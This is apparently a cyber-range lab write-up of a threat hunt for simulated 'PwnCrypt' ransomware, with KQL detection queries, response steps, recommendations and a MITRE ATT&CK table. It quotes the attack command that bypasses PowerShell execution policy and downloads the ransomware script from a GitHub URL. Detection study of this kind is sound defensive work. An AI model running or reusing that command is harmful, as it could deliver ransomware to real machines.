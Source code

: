 # 🛡️ Threat Hunt & Incident Response: PwnCrypt Ransomware Detection and Containment

---

**Author**: Jason Nguyen  
**Date**: 17 June 2025

**Tools & Technologies Used**:
- Microsoft Azure
- Microsoft Defender for Endpoint (MDE)
- KQL (Kusto Query Language)
- PowerShell
- GitHub (Markdown, Repo Management)

---

## 🗓️ Timeline Summary and Findings

### 🔍 Scenario

A new ransomware strain named **PwnCrypt** has been reported in the wild. It uses a **PowerShell-based payload** to encrypt files on infected systems using **AES-256** encryption. The ransomware targets directories such as `C:\Users\Public\Desktop` and appends a `.pwncrypt` extension to filenames (e.g., `hello.txt` → `hello.pwncrypt.txt`).

Due to the organization's **immature security program**, including lack of user awareness training, the CISO has requested an internal investigation to identify and respond to any potential infections.

---

## 🧾 Detection Process

### 1️⃣ File Discovery Using KQL
Initial hunting focused on file artifacts with the `.pwncrypt` pattern:

```kql
let VMname = "windows-target-1";
DeviceFileEvents
| where DeviceName == VMname
| where FolderPath contains "pwncrypt"
| order by Timestamp desc
| project Timestamp, DeviceName, FolderPath, ActionType, InitiatingProcessCommandLine
````

**Findings:**

* Encrypted files with `.pwncrypt` extensions were found.
* Affected directories include **Desktop** and **Temp** folders.
* Strong indication that `windows-target-1` was infected.

---

### 2️⃣ Process Tracing and Payload Delivery

Correlated events around the time of file encryption revealed suspicious use of PowerShell:

```kql
let VMname = "windows-target-1";
let specificTime = datetime(2025-06-10T16:13:46.9449819Z);
DeviceProcessEvents
| where DeviceName == VMname
| where Timestamp between ((specificTime - 2m) .. (specificTime + 2m))
| where ProcessCommandLine contains "pwncrypt"
| order by Timestamp desc
| project Timestamp, DeviceName, ActionType, FileName, ProcessCommandLine
```

**Malicious Command Identified:**

```powershell
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1
```

**Indicators:**

* Use of **`-ExecutionPolicy Bypass`** to disable script restrictions.
* Download of malicious payload from **GitHub**.
* Output written to `C:\programdata\pwncrypt.ps1`.

---

## 🧯 Response Actions

* ✅ **Isolated** the infected device `windows-target-1`.
* 🔁 Created a **detection rule** for `.pwncrypt` activity across all devices.
* ✅ **Isolated additional infected devices** discovered via the new rule.
* 📢 **Reported findings to the CISO** with all collected evidence.
* 🗂️ **Documented all encrypted files** and tracked impacted endpoints.
* ⚠️ Due to limited internal capacity, external assistance was requested for forensic analysis and recovery efforts.

---

## 🔧 Recommendations and Improvements

Given the organization’s current security maturity:

1. 🧑‍🏫 **Launch employee awareness training** to reduce user-driven infection vectors.
2. 🛠️ **Harden systems** and restrict PowerShell execution on standard endpoints.
3. 📈 **Expand detection coverage** using known malware/ransomware signatures.
4. 🔄 Use this incident to **prioritize long-term investment** in endpoint protection, EDR solutions, and IR procedures.

---

## 🎯 MITRE ATT\&CK Mapping

| **Tactic**          | **Technique ID** | **Technique Name**                                       | **Description**                                                             |
| ------------------- | ---------------- | -------------------------------------------------------- | --------------------------------------------------------------------------- |
| Execution           | T1059.001        | Command and Scripting Interpreter: PowerShell            | Uses PowerShell with `-ExecutionPolicy Bypass`.                             |
| Execution           | T1059.003        | Command and Scripting Interpreter: Windows Command Shell | Uses `cmd.exe` to initiate PowerShell payload.                              |
| Defense Evasion     | T1562.001        | Disable or Modify Tools: Security Software Discovery     | Bypasses execution policy, evades traditional security tooling.             |
| Collection          | T1119            | Automated Collection                                     | Automatically encrypts files from known directories.                        |
| Impact              | T1486            | Data Encrypted for Impact                                | Encrypted data using AES-256; filenames changed with `.pwncrypt` extension. |
| Command and Control | T1105            | Ingress Tool Transfer                                    | Payload delivered via `Invoke-WebRequest` from external GitHub URL.         |

---

## 📎 Notes

* This incident has reinforced the importance of proactive threat hunting, user education, and modular detection techniques using tools like KQL and Microsoft Defender for Endpoint.
* Screenshots and KQL outputs have been archived locally.
* This report is part of my cybersecurity learning portfolio from Josh Madakor's Cyber Range.
